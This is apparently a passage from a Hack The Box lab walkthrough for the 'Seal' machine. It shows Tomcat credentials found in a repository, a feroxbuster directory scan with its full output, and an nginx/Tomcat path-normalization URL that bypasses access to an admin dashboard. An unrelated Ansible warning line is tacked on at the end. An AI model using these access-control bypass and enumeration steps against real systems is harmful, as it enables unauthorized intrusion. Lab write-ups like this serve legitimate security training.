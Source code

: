 ![](welcome1.png)

After creating a user we gain access to 2 repositories, `seal_market` and `infra`. Browsing the `seal_market` repo, we find the earliest commit which adds tomcat configuration. Taking a look at the `seal_market / tomcat / tomcat-users.xml `{: .filepath} file we find credentials for the tomcat application:

![](creds.png)

While browsing we also find two new users, `luis` and `alex`. Doing a scan of the market application for tomcat specific endpoints we find the following:
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Seal]
└─$ feroxbuster -u https://seal.htb:443 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/tomcat.txt -k

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://seal.htb:443
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/tomcat.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        7l       10w      162c https://seal.htb/manager/html
403      GET        7l       10w      162c https://seal.htb/manager/html/*
403      GET        7l       10w      162c https://seal.htb/host-manager/html/*
200      GET      518l     1140w    19737c https://seal.htb/
302      GET        0l        0w        0c https://seal.htb/host-manager => http://seal.htb/host-manager/
302      GET        0l        0w        0c https://seal.htb/manager => http://seal.htb/manager/
200      GET       84l      304w     4374c https://seal.htb/manager/status.xsd
401      GET       63l      291w     2499c https://seal.htb/manager/status/*
401      GET       63l      291w     2499c https://seal.htb/manager/jmxproxy
401      GET       63l      291w     2499c https://seal.htb/manager/jmxproxy/*
[####################] - 1s       182/182     0s      found:10      errors:0      
[####################] - 1s        91/91      76/s    https://seal.htb:443 
[####################] - 0s        91/91      100/s   https://seal.htb/ 
```
We know that the server is using both nginx and tomcat based on the files found in `GitBucket`. Usually this means the application might be vulnerable to [path normalization](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf). If we visit the url `https://seal.htb/admin;test=test/dashboard` we get access to the the admin dashboard. 
![](dashboard.png)


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
